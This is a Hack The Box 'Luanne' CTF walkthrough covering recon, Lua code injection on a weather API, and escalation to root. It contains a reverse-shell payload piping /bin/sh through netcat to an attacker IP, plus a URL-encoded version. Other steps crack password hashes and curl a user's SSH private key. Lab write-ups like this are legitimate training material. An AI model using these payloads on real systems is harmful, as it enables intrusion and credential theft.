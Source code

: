 ```yaml
---
layout: page
title: Luanne
description: Write-up
dropdown: HTB-BOXES
priority: 1
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://i.ibb.co/xXfkxYT/image.png)


### Let's start with the Web Page:

![](https://i.ibb.co/1GYkMLC/image.png)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://i.ibb.co/87bbn0b/image.png)


> #### I used ffuf for fuzzing luanne.htb/


![](https://i.ibb.co/bdWykc8/image.png)



* We got robots.txt

![](https://i.ibb.co/mTQCjQq/image.png)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://i.ibb.co/R2pH0fq/image.png)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://i.ibb.co/cJXyHr9/image.png)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://i.ibb.co/g7bGCMX/image.png)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://i.ibb.co/dgQVN9S/image.png)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://i.ibb.co/1JXzdwC/image.png)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://i.ibb.co/C854hrM/image.png)

**we got iamthebest**

## Enumerate luanne.


![](https://i.ibb.co/8M8vYqx/image.png)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://i.ibb.co/pLd3JPM/image.png)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://i.ibb.co/r00s2W3/image.png)


![](https://i.ibb.co/HTDXSZx/image.png)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://i.ibb.co/TYT9362/image.png)

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![](https://i.ibb.co/fQpQGwW/image.png)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://i.ibb.co/9V7NPZF/image.png)


## SSH connecting.


![](https://i.ibb.co/xm3Dh9Z/image.png)

![](https://i.ibb.co/L1GYvVN/image.png)

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://i.ibb.co/QmmzY8b/image.png)

> * we access to /webapi but no thing useful.


![](https://i.ibb.co/hKqcSJL/image.png)

> **we access to /www and got another webapi_user.**
 
![](https://i.ibb.co/D8f6St8/image.png)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![](https://i.ibb.co/VjZxr3m/image.png)

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![](https://i.ibb.co/5xQ1GY7/image.png)

# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">


